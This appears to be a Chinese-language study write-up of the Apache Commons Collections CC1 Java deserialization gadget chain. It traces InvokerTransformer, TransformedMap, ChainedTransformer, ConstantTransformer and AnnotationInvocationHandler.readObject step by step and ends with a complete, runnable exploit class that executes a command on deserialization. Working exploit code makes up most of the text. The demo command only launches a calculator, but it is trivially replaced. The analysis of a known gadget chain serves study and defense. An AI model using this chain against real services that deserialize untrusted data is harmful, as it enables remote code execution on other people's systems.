



# 分析过程

1. 原作者发现了一个 Transformer 接口，就是要实现一个transform方法


2. 查看transform方法的实现类，这里有21个类，可以进去几个看看，但是一个个看还是太麻烦了，这里我一看就知道利用点在 InvokerTransformer 类里面，所以就进去看看


可以看到这里所有参数都可以自定义，相当于通过反射实现一个任意命令执行。




3. 所以我们试一下用InvokerTransformer实现rce

```java
Runtime r = Runtime.getRuntime();
Class c = r.getClass();
Method execMethod = c.getMethod("exec", String.class);
execMethod.invoke(r,"calc");
```

```
Runtime r = Runtime.getRuntime();
new InvokerTransformer("exec",new Class[]{String.class},new String[]{"calc"}).transform(r);
```

所以我们找到了可以用 `InvokerTransformer` 中的 `transform` 方法实现rce

所以要看一下还有什么类可以实现`transform`方法

4. 于是查找`transform`方法的实现类 ，找到了21个结果，要参数可控的，最后找到了Map类中的

`TransformedMap`

5. 发现`TransformedMap`类中的`checkSetValue`方法中调用了`transform`方法并且参数可控


而且这是个protected方法，说明他只能在当前包中被调用，查看构造方法，`valueTransformer`参数可以控制


5. 因为`TransformedMap`也是一个protect的构造方法，所以我们要查看一下，这样才能调用构造方法创建对象，比较简单的是`decorate`静态方法，所以我们可以通过`decorate`方法创建`TransformedMap`实例对象，这里对方法名进行理解，相当于对一个Map进行操作


6. 我们尝试TransformedMap实现rce（未实现）

```java
InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"calc"});
        HashMap<Object,Object> map = new HashMap();
        TransformedMap.decorate(map,null,invokerTransformer);
```

这时候我们通过`decorate`方法创建了`TransformedMap`对象，并且给`valueTransformer`赋值了`InvokerTransformer`的实例化对象，我们需要`InvokerTransformer.transform`方法来实现rce

所以现在我们只需要有实现`checkSetValue`方法即可实现

7. 所以查看`checkSetValue`的实现，只有一个结果，`AbstractInputCheckedMapDecorator`类，它是`TransformedMap`的父类，是一个抽象类，它里面的`MapEntry`类中的`setValue`方法调用了`checkSetValue`方法


8. 从`MapEntry`名字猜测，Entry是键值对，一般循环遍历Map时会调用这种方法，尝试构造新的链子

这是通过循环遍历实现setValue方法，从而调用了里面的`checkSetValue`方法从而实现了上面的链子

```java
Runtime r = Runtime.getRuntime();
InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"calc"});
HashMap<Object,Object> map = new HashMap();
map.put("key","value");
Map<Object,Object>  transformedMap = TransformedMap.decorate(map, null, invokerTransformer);
for(Map.Entry entry:transformedMap.entrySet()){
    entry.setValue(r);
}
```

9. 所以我们继续找哪里实现了`setValue`方法，因为我们最终的目标是`readObject`方法，所以查找`setValue`的实现，有38个结果，刚好cc1里下一个就是`AnnotationInvocationHandler`里面的`readObject`，我就不一个个找了。这里有一个循环遍历，里面会触发`setValue`方法


10. 所以只需要实例化这个类，因为这个不是public class，所以要通过反射获取，将对应参数传入就实现了反序列化触发rce

```java
Runtime r = Runtime.getRuntime();
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"calc"});
        HashMap<Object,Object> map = new HashMap();
        map.put("key","value");
        Map<Object,Object>  transformedMap = TransformedMap.decorate(map, null, invokerTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor d = c.getDeclaredConstructor(Class.class, Map.class);
        d.setAccessible(true);
        Object o = d.newInstance(Override.class, transformedMap);
        serialize(o);
        unserialize("person.txt");

    }
```

按照前面的分析，这样写好应该就可以触发rce，弹出计算器，但是运行后并没有弹，这里有两个问题

# 发现问题

## 问题一：Runtime类无法序列化

进入`Runtime`类发现没有实现`serializeable`接口，不能序列化



## 问题一解决：

既然`Runtime`类不能实例化，那就反射获取`Runtime`类的`class`对象，通过反射调用其中的方法。

1. 通过反射获得`Runtime`类实现rce

```java
        Class c = Runtime.class;
        Method getruntimeMethod = c.getMethod("getRuntime", null );
        Runtime r = (Runtime) getruntimeMethod.invoke(null, null);
        Method execMethod = c.getMethod("exec", String.class);
        execMethod.invoke(r,"calc");
```

2. 改为`InvokerTransformer`实现

```java
Method getruntimeMethod = (Method) new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}).transform(Runtime.class);
Runtime r =(Runtime) new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class},new Object[]{null, null}).transform(getruntimeMethod);
new InvokerTransformer("exec",new Class[]{String.class},new String[]{"calc"}).transform(r);
```

3. 这里看起来好像有点麻烦，之前查看`transformer`接口实现类时发现一个类似递归调用的`ChainedTransformer`的类中的`transformer`方法



4. 尝试用它进行改写

```java
Transformer[] transformers = new Transformer[]{
        new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
        new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class},new Object[]{null, null}),
        new InvokerTransformer("exec",new Class[]{String.class},new String[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
chainedTransformer.transform(Runtime.class);
```

到这里就已经用反射解决了`Runtime`类无法序列化的问题

## 问题二：setValue参数无法控制

1. 我们上面最终的exp触发`readObject`后是触发了`setValue`方法，但是它的参数并不是我们希望的 `Runtime.getRuntime()`也就是后来的`Runtime.class`所以并不能触发后续的链子。
2. 这时我没想到transformer接口的实现类中有一个 `ConstantTransformer`类中的transformer方法是你传入什么参数就返回什么参数


3. 于是使用`ConstantTransformer`类的`transformer`方法传入`Runtime.class`参数

## 问题三：if判断

需要map中的key值和注解类中的方法名相同和不为空

# 最终exp

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class CC1Test {
    public static void main(String[] args) throws IOException, NoSuchMethodException, InvocationTargetException, IllegalAccessException, ClassNotFoundException, InstantiationException, NoSuchFieldException {
       

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class},new Object[]{null, null}),
                new InvokerTransformer("exec",new Class[]{String.class},new String[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
//        chainedTransformer.transform(Runtime.class);

        HashMap<Object,Object> map = new HashMap();
        map.put("value","value");
        Map<Object,Object>  transformedMap = TransformedMap.decorate(map, null, chainedTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor d = c.getDeclaredConstructor(Class.class, Map.class);
        d.setAccessible(true);
        Object o = d.newInstance(Target.class, transformedMap);
        serialize(o);
        unserialize("person.txt");
    }


    //序列化方法
    public static void serialize(Object obj) throws IOException, NoSuchFieldException, IllegalAccessException {
        ObjectOutputStream oos =new ObjectOutputStream(new FileOutputStream("person.txt"));
        oos.writeObject(obj);
        System.out.println("序列化完成");
    }
    //反序列化方法
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException
    {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        System.out.println("反序列化"+Filename +"完成");
        return obj;
    }
}
```

# 链子分析

反序列化 -> readObject -> setValue ->checkSetValue -> ChainedTransformer.transformer ->在chain里面获取getmathod，通过getmathod获取invoke，通过invock调用exec，

map.put传入的键值对，其中的key在绕过if判断时有一点作用

decorate方法时TransformedMap类中用来实例化对象的，相当于new，这里把chainedTransformer传入了

在下面通过反射创建AnnotationInvocationHandler的实例化对象